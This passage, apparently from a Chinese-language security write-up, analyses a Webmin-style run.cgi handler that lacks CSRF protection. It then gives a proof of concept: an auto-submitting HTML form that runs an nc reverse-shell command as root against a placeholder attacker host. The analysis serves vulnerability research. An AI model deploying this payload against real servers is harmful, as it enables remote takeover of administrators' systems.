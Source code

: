 $cmd = $in{'cmd'};
if (&amp;supports_users()) {
    defined(getpwnam($in{'user'})) || &amp;error($text{'run_euser'});
    &amp;can_edit_process($in{'user'}) || &amp;error($text{'run_euser2'});
    if ($in{'user'} ne getpwuid($&lt;)) {
        $cmd = &amp;command_as_user($in{'user'}, 0, $cmd);
        }
    }

if ($in{'mode'}) {
    # fork and run..
    if (!($pid = fork())) {
        close(STDIN); close(STDOUT); close(STDERR);
        &amp;open_execute_command(PROC, "($cmd)", 0);
        print PROC $in{'input'};
        close(PROC);
        exit;
        }
    &amp;redirect("index_tree.cgi");
    }
else {
    # run and display output..
    &amp;ui_print_unbuffered_header(undef, $text{'run_title'}, "");
    print "&lt;p&gt;\n";
    print &amp;text('run_output', "&lt;tt&gt;".&amp;html_escape($in{'cmd'})."&lt;/tt&gt;"),"&lt;p&gt;\n";
    print "&lt;pre&gt;";
    $got = &amp;safe_process_exec_logged($cmd, 0, 0,
                     STDOUT, $in{'input'}, 1);
    if (!$got) { print "&lt;i&gt;$text{'run_none'}&lt;/i&gt;\n"; }
    print "&lt;/pre&gt;\n";
    &amp;ui_print_footer("", $text{'index'});
    }
&amp;webmin_log("run", undef, undef, \%in);
</code></pre>
<p>通过分析源码我们得知代码没有针对CSRF的保护措施，因此我们只需很简单的CSRF构造即可触发该漏洞，并且由于该漏洞触发点是run.cgi文件，我们可以直接通过CSRF构建RCE（远程命令执行），这是非常理想的漏洞利用场景。</p>
<h4 id="漏洞利用">漏洞利用</h4>
<p>接下来我们通过构造PoC，尝试利用这个漏洞。</p>
<p>首先我们来构造一个HTML文件，<strong>这个HTML的核心目标是进行form表单的自动提交</strong>，源码如下：</p>
<pre><code class="language-plain">&lt;html&gt;
        &lt;head&gt;
            &lt;meta name="referrer" content="never"&gt;
        &lt;/head&gt;
  &lt;body&gt;
    &lt;form action="http://your_mituan_app_address/proc/run.cgi" method="POST"&gt;
      &lt;input type="hidden" name="cmd" value="mkfifo /tmp/378; nc your_ip your_port 0&lt;/tmp/378 | /bin/sh &gt;/tmp/378 2&gt;&amp;1; rm /tmp/378" /&gt;
      &lt;input type="hidden" name="mode" value="0" /&gt;
      &lt;input type="hidden" name="user" value="root" /&gt;
      &lt;input type="hidden" name="input" value="" /&gt;
      &lt;input type="hidden" name="undefined" value="" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
